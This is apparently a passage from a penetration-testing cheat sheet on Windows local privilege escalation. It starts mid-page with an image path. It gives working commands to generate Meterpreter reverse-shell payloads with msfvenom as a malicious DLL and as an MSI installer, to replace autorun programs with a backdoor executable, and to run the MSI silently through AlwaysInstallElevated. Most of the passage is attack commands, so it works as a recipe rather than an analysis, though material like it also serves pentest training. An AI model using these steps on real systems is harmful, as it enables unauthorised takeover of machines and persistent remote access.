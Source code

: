 ```cmd
#Check Permission
icacls C:\program_directory

#create malicious dll
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o legimate.dll

#Start the service
net start service_name

#or try to execute the program
```


## Exploiting Startup Program and AlwaysInstallElevated 
If we can modify the startup program,we can replace the original program with ours. 
1. **Startup Program**
Note: These command just copy and paste from ```https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software```

```
wmic startup get caption,command 2>nul & ^
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run 2>nul & ^
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce 2>nul & ^
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run 2>nul & ^
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce 2>nul & ^
dir /b "C:\Documents and Settings\All Users\Start Menu\Programs\Startup" 2>nul & ^
dir /b "C:\Documents and Settings\%username%\Start Menu\Programs\Startup" 2>nul & ^
dir /b "%programdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul & ^
dir /b "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
```

```bat
#with winpeas
.\winpeas.exe quiet serviceinfo

#Manually
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

#Replace
copy C:\PrivEsc\backdoor.exe "C:\Program Files\Autorun Program\program.exe"
```


2. **AlwaysInstallElevated**
Using winpeas
```bat
.\winpeas.exe quiet windowscreds
```

Generate MSI package with MSFVENOM:
```bash
msfvenom -p windows\x64\meterpreter\reverse_tcp LHOST=<ip> LPORT=<port> -f msi >backdoor.msi
```
Copy the ```backdoor.msi``` to the remote host and execute:
```bat
msiexec /quiet /qn /i C:\windows\temp\backdoor.msi
```
